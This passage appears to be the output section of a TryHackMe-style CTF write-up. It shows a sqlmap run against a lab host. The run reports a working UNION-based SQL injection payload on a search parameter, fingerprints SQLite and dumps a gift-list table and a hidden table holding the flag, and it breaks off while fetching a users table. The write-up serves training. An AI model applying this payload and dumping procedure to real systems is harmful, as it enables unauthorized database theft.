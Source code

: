 ```bash
Parameter: search (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: search=prathap' UNION ALL SELECT NULL,'qkqkq'||'dvCVwLqHtGZsHExHmzhLgpCQbEzxjpwCNlGYUFGe'||'qpxqq'-- btVc
---
[07:38:30] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[07:38:30] [INFO] testing SQLite
[07:38:30] [INFO] confirming SQLite
[07:38:30] [INFO] actively fingerprinting SQLite
[07:38:31] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[07:38:31] [INFO] sqlmap will dump entries of all tables from all databases now
[07:38:31] [INFO] fetching tables for database: 'SQLite_masterdb'
[07:38:31] [INFO] fetching columns for table 'sequels' in database 'SQLite_masterdb'
[07:38:31] [INFO] fetching entries for table 'sequels' in database 'SQLite_masterdb'
Database: SQLite_masterdb
Table: sequels
[22 entries]
+-------------+-----+----------------------------+
| kid         | age | title                      |
+-------------+-----+----------------------------+
| James       | 8   | shoes                      |
| John        | 4   | skateboard                 |
| Robert      | 17  | iphone                     |
| Michael     | 5   | playstation                |
| William     | 6   | xbox                       |
| David       | 6   | candy                      |
| Richard     | 9   | books                      |
| Joseph      | 7   | socks                      |
| Thomas      | 10  | 10 McDonalds meals         |
| Charles     | 3   | toy car                    |
| Christopher | 8   | air hockey table           |
| Daniel      | 12  | lego star wars             |
| Matthew     | 15  | bike                       |
| Anthony     | 3   | table tennis               |
| Donald      | 4   | fazer chocolate            |
| Mark        | 17  | wii                        |
| Paul        | 9   | github ownership           |
| James       | 8   | finnish-english dictionary |
| Steven      | 11  | laptop                     |
| Andrew      | 16  | rasberry pie               |
| Kenneth     | 19  | TryHackMe Sub              |
| Joshua      | 12  | chair                      |
+-------------+-----+----------------------------+

[07:38:31] [INFO] table 'SQLite_masterdb.sequels' dumped to CSV file '/root/.sqlmap/output/10.10.101.106/dump/SQLite_masterdb/sequels.csv'
[07:38:31] [INFO] fetching columns for table 'hidden_table' in database 'SQLite_masterdb'
[07:38:31] [INFO] fetching entries for table 'hidden_table' in database 'SQLite_masterdb'
Database: SQLite_masterdb
Table: hidden_table
[1 entry]
+-----------------------------------------+
| flag                                    |
+-----------------------------------------+
| thmfox{All_I_Want_for_Christmas_Is_You} |
+-----------------------------------------+

[07:38:31] [INFO] table 'SQLite_masterdb.hidden_table' dumped to CSV file '/root/.sqlmap/output/10.10.101.106/dump/SQLite_masterdb/hidden_table.csv'
[07:38:31] [INFO] fetching columns for table 'users' in database 'SQLite_masterdb'
[07:38:31] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
```